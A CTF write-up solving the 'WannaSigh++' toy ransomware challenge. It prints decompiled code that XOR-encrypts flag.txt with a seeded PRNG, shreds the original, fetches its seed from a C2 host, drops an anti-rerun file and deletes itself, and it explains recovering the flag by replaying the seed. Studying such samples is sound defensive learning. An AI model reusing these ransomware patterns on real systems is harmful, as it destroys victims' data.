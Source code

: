 #### Challenge:

The WannaSigh devs have returned - and their new ransomware has encrypted the flag! We first noticed that flag.txt was missing late last Friday night. One of our analysts was able to find this sample, but the evolved ransware has a new way of encrypting files that we have been unable to reverse. The malware is not only more sophisticated, but it appears to be tempermental and resists analysis. As per usual, the WannaSigh++ sample has been zipped with the password "infected".

*The BTC address in the ransom is for the EFF- you will not actually get the flag if you give them $500 (You should never pay the ransom!). Also the ransomware (it feels weird writing ransomware) should only target files named "flag.txt" - but as always you should be careful.

[wannasigh_elf3.zip](./wannasigh_elf3.zip":ignore")
[your-flag.ransomed](./your-flag.ransomed":ignore")

---

#### Solution:

We are given encrypted flag and binary with ransomware that encrypted it. Opening it with `ghidra` I inspected the code and found following interesting function:

```c++
/* encrypt(int) */

void encrypt(int param_1)

{
  int iVar1;
  int iVar2;
  FILE *__stream;
  FILE *__stream_00;
  
  __stream = fopen("flag.txt","r");
  __stream_00 = fopen("your-flag.ransomed","w");
  srand(param_1);
  do {
    iVar1 = fgetc(__stream);
    iVar2 = rand();
    fputc((int)(char)((byte)iVar1 ^ (byte)iVar2),__stream_00);
  } while ((byte)iVar1 != 0xff);
  system("shred -uz flag.txt");
  return;
}
```

- this function seems to be reading the content of the file `flag.txt` and XOR-ing it byte-by-byte with random numbers generated based on the seed that is passed to it as parameter and putting the output to file `file your-flag.ransomed`. After that it deletes the original. I realized that the sequence of random numbers will be the same for the same seed and inverse function to XOR is XOR with the same value, so I copied the `your-flag.ransomed` to `flag.txt` and run the program which produced plaintext flag in `your-flag.ransomed`.

Later I found out in discord that I was quite lucky, because the ransomware server is providing correct seed only the first time the client connects to it, after that it remembers client's IP address that is sent to it by the client and instead of the seed it sends some cheeky text messages while the program uses hardcoded seed (with value `42`). This could have been bypassed by spoofing the ransomware clients message with fake IP (unused one) to get back the correct initial seed. This logic can be seen in the main function, although it's quite obfuscated. Btw, the main function has two other traps, it creates file `.AlreadyRan.nope` which causes subsequent runs of the program to do no action and the last action of the program is to delete itself, so knowing this I feel really lucky to have figured out this challenge on the first run, otherwise it could have been pretty painful... While writing the writeup I played with it while the servers were up and put some comments to the code.

```c++
undefined8 main(void)

{
  char cVar1;
  uint16_t uVar2;
  int iVar3;
  ssize_t sVar4;
  long in_FS_OFFSET;
  int local_188;
  int local_184;
  undefined4 local_180;
  undefined4 local_17c;
  char *local_178;
  hostent *local_170;
  ulong local_168;
  undefined8 local_160;
  undefined8 local_158;
  undefined8 local_150;
  undefined local_148;
  undefined8 local_138;
  undefined8 local_130;
  undefined4 local_128;
  undefined2 local_124;
  undefined local_122;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_158 = 0x79646165726c412e; // these three variables are obfuscated way to generate string '.AlreadyRan.nope' for the trap file
  local_150 = 0x65706f6e2e6e6152; 
  local_148 = 0;
  cVar1 = exists((char *)&local_158); // trap file check
  if (cVar1 != '\x01') {
    system("touch .AlreadyRan.nope"); // trap file creation
    local_178 = (char *)malloc(0xf); // variable for clients ipv4 address to send to malware server
    getIPStr(local_178); // function to query client's ipv4 address to send to malware server
    local_138 = 0x5f68686868616142; // message prefix to send to malware server `Baahhhh_`
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    strcat((char *)&local_138,local_178); // concat message prefix with the ipv4 server. To get the seed send message `Baahhhh_aaa.bbb.ccc.ddd` to the malware server.
    free(local_178);
    local_184 = socket(2,1,0);
    local_180 = 0x48b2; // malware server port = 18610
    local_170 = gethostbyname("wannasigh109fn10fn48vh.wpictf.xyz"); // malware server address
    local_160 = 0;
    local_168 = 2;
    memmove((void *)((long)&local_168 + 4),*local_170->h_addr_list,(long)local_170->h_length);
    uVar2 = htons((uint16_t)local_180);
    local_168._0_4_ = CONCAT22(uVar2,(sa_family_t)local_168);
    local_168 = local_168 & 0xffffffff00000000 | (ulong)(uint)local_168;
    iVar3 = connect(local_184,(sockaddr *)&local_168,0x10);
    if (iVar3 != 0) {
      printf("The WannaSigh++ C2 server appears to be down.");
    }
    sVar4 = write(local_184,&local_138,0x17);
    local_17c = (undefined4)sVar4;
    local_138 = 0;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    sVar4 = read(local_184,local_118,0x100);
    local_17c = (undefined4)sVar4;
    close(local_184);
    local_188 = 0x2a; // Hardcoded seed value '42'
    __isoc99_sscanf(local_118,&DAT_00102076,&local_188); // Seed value from the malware server (if present in the response (it was '1618617746')) 

    encrypt(local_188); // The encrypt function call
    
    display();
  }
  system("rm -f wannasigh++.elf");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

---

<details><summary>FLAG:</summary>

```
WPI{backup-your-files}
```

</details>
<br/>
